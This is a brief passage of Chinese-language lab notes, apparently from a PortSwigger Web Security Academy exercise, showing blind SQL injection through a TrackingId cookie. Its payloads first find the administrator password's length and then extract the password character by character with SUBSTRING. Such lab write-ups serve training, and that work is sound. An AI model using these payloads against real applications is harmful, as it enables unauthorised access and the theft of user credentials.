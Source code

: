 ![image-20250712133457292](portswigger.assets/image-20250712133457292.png)

然后判断密码长度**TrackingId=BAUkmwic7zEx9Jvb'and (select 'a' from users where username='administrator' and length(password)>19)='a;**

判断密码是20位，然后，盲注字符

**TrackingId=8cHtTyl50BvkDVEL'and (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='r;**

or

**TrackingId=8cHtTyl50BvkDVEL' and substring((select password from users where username='administrator'),1,1)='r;**

![image-20250712144647256](portswigger.assets/image-20250712144647256.png)、
